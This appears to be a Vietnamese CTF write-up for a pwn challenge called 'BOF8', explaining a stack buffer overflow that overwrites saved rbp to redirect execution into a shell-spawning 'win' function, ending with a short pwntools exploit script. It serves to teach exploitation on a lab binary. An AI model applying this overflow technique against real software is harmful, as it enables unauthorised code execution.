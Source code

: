 # BOF8
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/dbbd6cd1-c233-473b-a652-81db558998d1)
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/f101a725-61a9-4cdd-930d-0a0034560eb6)
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/7eea3e29-8e43-4e54-bdfe-75d7e507f311)
# Tự Hành:
- Bước đầu thì ta sẽ vài terminal để test thử offset và cách mà chương trình hoạt động.
- ở bài này chỉ có thể tận dụng ở hàm buy , còn hàm sell chỉ đơn giản là in ra 1 đoạn chữ nên là mình sẽ không show ra.
- Bước đầu ta tạo 40 byte để nhập thử y như hàm read yêu cầu.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/dffb4ef6-34d2-4c15-ab9f-ecc26d4f3d9c)
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/80738717-f5a5-4781-a3e2-ce427f7b0e26)
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/ea0c3f59-60b7-494c-9075-124176f7275e)
- Đề ko bắt buộc là chỉ nhập mỗi số nên là ta nhập cái gì vào đây cũng đc , như ta thấy thanh ghi`rbp` đã bị thay đổi , và bởi vì đây ko phải là 1 địa chỉ hợp lệ nên là ta cần phải overwrite save rbp để có thể chuyển hướng luồng thực thi của chương trình.
- Ta kiểm tra ra đc offset là 32 , và 8 byte tiếp theo ta sẽ gửi vào là địa chỉ của hàm `win` để có thể chuyển hướng luống thực thi của chương trình như sau.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/efc920a1-f57a-49d1-bc20-e96261b4fe4b)
- Ta chọn đại 1 địa chỉ ghi đc để có thể vừa debug vừa viết script 1 cách dễ hiểu nhất
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/896ea0a7-7642-4950-a650-a517f73ff588)
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/53503a67-c128-451c-9613-de0b15a89929)
- Chạy thử tools thì ta có thể thấy địa chỉ mà ta nhập vào đã đc đẩy lên `rbp`.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/63a3e1ff-3efc-498e-b14e-6a6e4cc16ee8)
- Và khi nhập `3` để exit thì ta có thể thấy đc rằng stack đã bị cộng thêm 8 byte do lệnh `leave` gây ra.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/34e0e11f-a754-4cd8-a6fc-0a36c5bac047)
- Với lệnh `leave` = `mov rsp , rbp ; pop rbp` cộng với lệnh `ret` nên bị trường hợp cộng thêm 8 byte.
- Vì vậy khi kiếm ra đc địa chỉ hàm `win` ta cần phải cân chỉnh sao cho chuẩn để có thể trỏ đúng vào hàm `win` .
- Ta sẽ kiếm hàm `win` như sau.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/86ec8638-9dc6-4f6f-8173-41bc47ff22a4)
- Hàm `win` đã đc gọi vào 1 hàm có 1 khoản địa chỉ là `404850` vì thế ta có thể xem đc địa chỉ hàm `win`.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/b3689ca5-735b-4d06-b2bb-e8d142df6e36)
- Kiếm ra đc địa chỉ hàm `win` thì ta chỉ việc cân chỉnh sau cho hợp lý là đc.
- Và để cho vào `0x404850` thì ta sẽ nhập vào script bắt đầu từ `0x404840` và bởi vì sau lệnh `leave` + `ret` nó sẽ cộng thêm 8 byte. Thế nên ta sẽ nhập vào `0x404848` là hợp lý nhất , để sau khi qua lệnh `leave` nó sẽ nhảy chính xác vào hàm `win`.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/773dc829-8b94-4698-9781-6ed3866bcd46)
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/d9b50ac4-573a-405a-ad33-0ad835e4295a)
- Sau khi chạy tools thì có chúng ta đã trỏ chính xác đc tới hàm `win` , thực hiện việc tạo shell và đã thành công.
![image](https://github.com/NTDtrytofullstack/BOF8/assets/130078745/c67cc953-6d8f-4969-8cd5-104cb4ceb7a5)
# Source code:
```#!/usr/bin/python3
from pwn import *
exe = ELF('./bof8', checksec=False)

p=process(exe.path)


gdb.attach(p, gdbscript = '''
b*main+118
b*buy+89
b*main+207
c

''')
input()


p.sendlineafter(b'> ', b'1')
payload = b'a'*32
payload += p64(0x0000000000404848)
p.sendafter(b'> ', payload)
p.sendlineafter(b'> ', b'3')


p.interactive()
```
